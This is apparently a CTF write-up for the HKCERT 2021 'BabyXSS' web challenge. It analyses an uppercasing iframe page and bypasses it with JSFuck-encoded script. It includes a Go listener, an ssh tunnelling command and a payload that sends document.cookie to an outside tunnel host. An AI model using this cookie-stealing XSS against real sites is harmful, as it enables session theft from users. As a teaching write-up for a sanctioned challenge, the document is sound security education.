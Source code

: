 ```yaml
---
title: "HKCERT CTF 2021: 純孩兒 BabyXSS"
description: ""
date: 2021-11-16T02:00:32+08:00
lastmod: 2021-11-16T02:00:32+08:00
math: false
draft: false
tags: ["ctf", "hkcert21", "web", "xss"]
---
```


> **This post is part of the [HKCERT 2021 CTF series](/tags/hkcert21).**

---

|     Name     | 純孩兒 (BabyXSS)                 |
| :----------: | -------------------------------- |
|     Tags     | web                              |
|    Points    | 100                              |
|  Difficulty  | ★☆☆☆☆                            |
|    Solves    | 37 (total of all four divisions) |
| Release Date | 2021-11-13 02:00:00              |

> Have you tried the infant XSS challenge in the training platform? If you did, then you can try out this BABY XSS CHALLENGE...
>
> http://babyxss-m7neh9.hkcert21.pwnable.hk
>
> XSS Bot: http://xssbot-cxild5.hkcert21.pwnable.hk

---

## Step 1: Obtaining

Check the source code of the page by prepending `view-source:` to the URL, i.e., `view-source:http://babyxss-m7neh9.hkcert21.pwnable.hk/`.

```html
<HTML>
<HEAD>
	<TITLE>BABY XSS</TITLE>
</HEAD>
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
<H1>BABY XSS</H1>
<TEXTAREA ID="INPUT" ONCHANGE="WINDOW[LOCATION][HASH]=WINDOW[ENCODEURI](INPUT[VALUE])" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<IFRAME ID="OUTPUT" STYLE="WIDTH:400;HEIGHT:300"></IFRAME>
<SCRIPT>
	TOUPPERCASE = "\164\157\125\160\160\145\162\103\141\163\145";
	SUBSTR = "\163\165\142\163\164\162";
	ENCODEURI = "\145\156\143\157\144\145\125\122\111";
	DECODEURI = "\144\145\143\157\144\145\125\122\111";
	VALUE = "\166\141\154\165\145";
	SRCDOC = "\163\162\143\144\157\143";
	CONTENTWINDOW = "\143\157\156\164\145\156\164\127\151\156\144\157\167";
	PARENT = "\160\141\162\145\156\164";
	LOCATION = "\154\157\143\141\164\151\157\156";
	HASH = "\150\141\163\150";
	WINDOW = OUTPUT[CONTENTWINDOW][PARENT];

	CONVERT = () => {
		INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
		OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
	}
</SCRIPT>
</BODY>
</HTML>
```

We can see that this whole piece of code is uppercased. Also, the strings in the code inside the `script` tag is not readable, maybe because it's obfuscated?

So we input this whole piece of JavaScript code into https://deobfuscate.io. This is what we get.

{{< highlight javascript "linenostart=10" >}}
TOUPPERCASE = "toUpperCase";
SUBSTR = "substr";
ENCODEURI = "encodeURI";
DECODEURI = "decodeURI";
VALUE = "value";
SRCDOC = "srcdoc";
CONTENTWINDOW = "contentWindow";
PARENT = "parent";
LOCATION = "location";
HASH = "hash";
WINDOW = OUTPUT[CONTENTWINDOW][PARENT];
CONVERT = () => {
  INPUT[VALUE] = WINDOW[DECODEURI](WINDOW[LOCATION][HASH][SUBSTR](1));
  OUTPUT[SRCDOC] = INPUT[VALUE][TOUPPERCASE]();
};
{{< / highlight >}}

## Step 2: Analysing

Now that the code is made readable, we can clean up the code and figure out the flow of how this page works.

1. In **Line 7**, we can see that whenever the content in the text area is changed, a URL-encoded form of the content inside is appended to the current URL after a `#` (the hash part of the URL).
{{< highlight html "linenostart=7" >}}
<TEXTAREA ID="INPUT" ONCHANGE="window.location.hash=window.encodeURI(INPUT.value)" STYLE="WIDTH:400;HEIGHT:300"></TEXTAREA>
<!-- the cleaned code above is equivalent to the original -->
{{< / highlight >}}
2. In **Line 5**, we can see that whenever the page is loaded or the hash part in the current URL is changed, the `CONVERT` function is called.
{{< highlight html "linenostart=5" >}}
<BODY ONLOAD="CONVERT()" ONHASHCHANGE="CONVERT()">
{{< / highlight >}}
3. The `CONVERT` function is essentially replacing the content in the text area with the URL-decoded form of the hash part of the current URL, and also setting the `srcdoc` attribute of the output iframe to the uppercased form of the content in the text area.
{{< highlight javascript "linenostart=21" >}}
CONVERT = () => {
  document.getElementById("INPUT").value = window.decodeURI(window.location.hash.substr(1)); // substr(1) removes the '#' prefix
  document.getElementById("OUTPUT").srcdoc = INPUT.value.toUpperCase();
}; // the above code is cleaned and is equivalent to the original
{{< / highlight >}}

## Step 3: XSS Attack Procedure

{{< figure src="1.png" width=600 >}}

Since the hash part of the current URL updates correspondingly to the current content in the input text area, it acts like a "state-saving-and-restoring" function. This means when we type some input in the text area, the hash part of the current URL is updated as it saves our input. If we pass the URL to the victim, the content in the input text area is restored from the hash part of the URL once the page is loaded.

In order to achieve XSS, we need to figure out some way to execute JavaScript in victim's browser as we can then get access to sensitive information (e.g., cookies) stored in his browser. To do that, we can make use of the iframe `srcdoc` mechanism as this attribute allows us to inject source document including JavaScript code into the iframe document. If we use JavaScript code as the input, when the victim loaded the page given a URL, the input content is restored and the JavaScript code will be executed in victim's browser.

Note that HTML tags are **case-insensitive**, whereas JavaScript variables are **case-sensitive**. This is rather important in this challenge because although there is no escaping or encoding used, the input content is uppercased (in Line 9) before being inserted into the `srcdoc` attribute of the output iframe.

This means that if we directly inject something like `<script>alert(1)</script>` into the output iframe as the code will become `<SCRIPT>ALERT(1)</SCRIPT>`, it won't be triggered due to `Uncaught ReferenceError: ALERT is not defined`.

So we need to come up with a way to bypass the uppercase transformation so that the code can still be executed even after being uppercased. A simple Google search with "*javascript uppercase xss*" returns a *StackExchange* question as the first result: [How can I execute a XSS when a web application transforms a data from lowercase to uppercase?](https://security.stackexchange.com/questions/117798/how-can-i-execute-a-xss-when-a-web-application-transforms-a-data-from-lowercase)

It turns out that we can use *JSFuck* to transform plain JavaScript code into its equivalent in the form of `[]()!+` characters. This effectively bypasses the uppercase transformation while still can execute the code that does the same thing.

## Step 4: Exploit

Now in order for us to get the cookie stored in the victim's browser, we can use `document.cookie`. We also need to make a way for us to receive this cookie. We can expose a simple LAN web server to the Internet and make a request to the server with `document.cookie` as part of the request.

This is the simple web server I used.

```go
// file: server.go
package main

import (
	"fmt"
	"net/http"
)

func root(w http.ResponseWriter, req *http.Request) {
	fmt.Println(req.URL.String())  // log the request URL
	fmt.Fprintf(w, "hello\n")
}

func main() {
	http.HandleFunc("/", root)
	http.ListenAndServe(":1313", nil) // localhost on port 1313
}
```

Run it with `go run server.go`, then expose it to the Internet using a free tunnelling service: http://localhost.run by running `ssh -R 80:localhost:1313 nokey@localhost.run`. Now we get a temporary hosted web server that can be accessed by the victim as well.

In order for the victim's browser to send its cookie to my server, our XSS payload can tell it to navigate to the URL of our server with the cookie as part of the URL query so that my server logs this URL that contains the cookie.

The following is the XSS payload I used. The URL domain is the one provided by the tunnelling service.

```javascript
location.href="https://7795a3052e14c9.lhr.domains/?"+document.cookie
```

Then we will need to *JSFuck* the XSS payload, wraps it with the `script` tag, and type it into the input text area. Now you see the URL has changed, copy the URL and send it to the XSS Bot. Hooray! Now the flag shows up in the stdout of our server! `hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}`

```
$ go run server.go
/?
/?flag=hkcert21{zOMG_MY_KEYBOARD_IS_BROKEN_CANNOT_TURN_OFF_CAPSLOCK111111111}
```
